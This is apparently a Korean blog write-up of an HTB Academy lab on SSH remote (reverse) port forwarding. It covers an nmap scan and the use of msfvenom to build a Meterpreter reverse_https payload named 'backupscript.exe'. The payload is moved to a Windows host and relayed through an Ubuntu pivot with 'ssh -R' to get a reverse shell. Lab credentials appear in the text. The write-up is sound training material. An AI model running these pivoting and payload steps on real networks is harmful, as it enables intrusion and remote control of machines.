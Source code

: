 ```yaml
---
title: "Remote(Reverse) Port Forwarding"
date: 2025-09-29
layout: single
author_profile: true
toc: true
toc_label: "Remote Port Forwarding"
toc_icon: "network-wired"
toc_sticky: true
tags: [networking, ssh, tunneling, pivoting, reverse]
header:
  teaser: /assets/network-screenshots/remote-port-forwarding/remote-port-forwarding.png
---
```


**Remote(Reverse) Port Forwarding**은 로컬에서 실행 중인 서비스를 원격 SSH 서버의 특정 포트에 바인딩하여, 원격 네트워크 또는 내부망 호스트가 그 포트를 통해 해당 서비스에 접근할 수 있게 하는 기술이다. 

공격자는 SSH의 `-R` 옵션으로 피벗 호스트에 리스닝 포트를 생성하고, 이를 통해 NAT/방화벽으로 인해 직접 라우팅이 불가능한 환경에서 **역방향 연결(예: 리버스 셸)** 을 중계할 수 있다. 

이 기법은 파일 전송, 원격 명령 실행, Meterpreter 같은 리버스 세션 확보 등 직접 접속이 어려운 내부 자원에 대한 접근을 가능하게 해 자주 활용된다.

---

# Remote(Reverse) Port Forwarding

공격 호스트(`10.10.15.5`)는 **Ubuntu 서버**(`10.129.15.50`, `172.16.5.129`)에 SSH 접속이 가능하며,  
Ubuntu 서버를 통해 내부망 Windows 호스트(`172.16.5.19`)의 RDP 서비스에 접근할 수 있다.

![Remote Port Forwarding Diagram](/assets/network-screenshots/remote-port-forwarding/remote-port-forwarding.png)

그러나 Windows 호스트는 **공격 호스트(10.10.x.x)** 와 직접 라우팅이 불가능하다.  
따라서 Windows에서 **공격 호스트로 직접 Reverse Shell**을 보낼 경우 트래픽이 도달하지 못한다.

- Windows 호스트는 `172.16.5.0/23` 네트워크 안에만 트래픽을 보낼 수 있다.
- 공격자는 `10.129.x.x` (HTB Academy Lab) 네트워크에 있으며, Windows → 공격 호스트 직접 통신이 불가능하다.
- 단순 RDP 세션만으로는 **파일 업로드/다운로드** 또는 **Meterpreter 세션** 확보가 어렵다.

이러한 상황에서는 **공격자 → Ubuntu → Windows** 방향이 아닌  
**Windows → Ubuntu → 공격자** 순으로 트래픽을 **역방향(Reverse)** 으로 전달해야 한다.

---

# 실습

## Portscan

대상 Host(`10.129.243.159`)에 대해 기본 스크립트와 서비스 버전 탐지를 수행하였다.

```bash
$ nmap -sC -sV 10.129.243.159 

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-29 20:10 EDT
Nmap scan report for 10.129.243.159
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.55 seconds
```

Nmap 스캔 결과 `SSH(22)`, `http(80)` 등 서비스가 확인되었다.

## 동적 포트 포워딩을 이용한 SSH 접속

Dynamic Port Forwarding 관련 절차는 별도 포스트에 있습니다 → [Dynamic Port Forwarding 포스트 보기](../dynamic-port-forwarding).

우선 문제에서 제공한 아이디/비밀번호(`ubuntu:HTB_@cademy_stdnt!`) 를 이용하여 **동적 포트 포워딩**을 이용한 SSH 접속에 시도하였다.

```bash
$ ssh -D 9050 ubuntu@10.129.243.159
```

접속 후, `ifconfig` 명령어를 통하여 내부망 인터페이스를 확인하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/ifconfig.png)

그 결과 내부망 IP 주소 `172.16.5.129` 를 확인할 수 있었다.

## msfvenom Windows Payload

로컬 호스트에서 Windows용 Meterpreter 페이로드를 생성하기 위해 `msfvenom` 명령어를 사용하였다.

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

생성한 파일은 `scp` 명령을 이용해 **SSH 내부망 인터페이스**로 전송하였다.

```bash
scp backupscript.exe ubuntu@10.129.243.159:/home/ubuntu
```

## RDP 연결 && 스크립트 파일 전달

문제에서 제공된 RDP 계정(`victor:pass@123`)을 이용해 **proxychains**를 통해 내부망 RDP에 접속하였다.

```bash
$ proxychains xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123
```

이후, SSH 세션에서 `python` 내장 웹서버를 실행하여 파일 전송용 HTTP 서비스를 열었다.

```bash
$ python3 -m http.server 9999
```

Windows RDP 세션에서 `wget` 명령을 사용해 `backupscript.exe` 파일을 다운로드하였다.

```powershell
wget http://172.16.5.129:9999/backupscript.exe -o backupscript.exe
```

성공적으로 파일을 다운로드하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/rdp-wget.png)

## Remote Port Forwarding

이후, Ubuntu 서버를 중계(pivot) 호스트로 사용하기 위해 `ssh -R` 명령어를 실행하였다.

```bash
$ ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.243.159 -vN

# (-v : verbose, -N : no command)
```

명령 실행 후, Metasploit의 `msfconsole`을 실행하여 리버스 연결을 수신할 리스너를 설정하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/msfconsole.png)

이후 RDP 세션으로 돌아가 다운로드한 `backupscript.exe` 파일을 실행하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/rdp-remote-success.png)

잠시 후, Metasploit에서 `meterpreter` 세션이 활성화되었고
`ls` 명령어를 통해 **내부 파일/디렉터리 열람이 가능함을 확인**하였다.

이를 통해 RDP 환경에서 **원격 코드 실행(Remote)** 이 성공했음을 검증할 수 있었다.

## Flag 획득

Desktop으로 이동 후 `flag.txt` 파일 내용을 읽어 플래그를 획득하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/flag.png)

이로써 **Remote(Reverse) Port Forwarding** 실습을 마무리하였다.

